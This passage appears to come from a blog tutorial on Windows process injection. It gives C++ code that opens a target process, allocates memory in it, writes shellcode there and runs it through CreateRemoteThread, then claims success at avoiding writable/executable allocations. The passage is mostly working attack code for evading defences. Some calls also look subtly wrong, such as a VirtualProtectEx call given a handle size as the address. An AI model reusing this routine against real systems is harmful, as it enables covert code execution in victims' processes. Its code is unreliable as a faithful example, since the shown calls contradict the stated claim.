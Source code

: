 ```cpp 
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```


The next step is to compile -> run -> see what will happen.   

![screenshot_8](/assets/img/posts/Process_Injection/Injected.png)

Yup, we injected our shellcode successfully without writable/executable allocation.  



_________________________  
  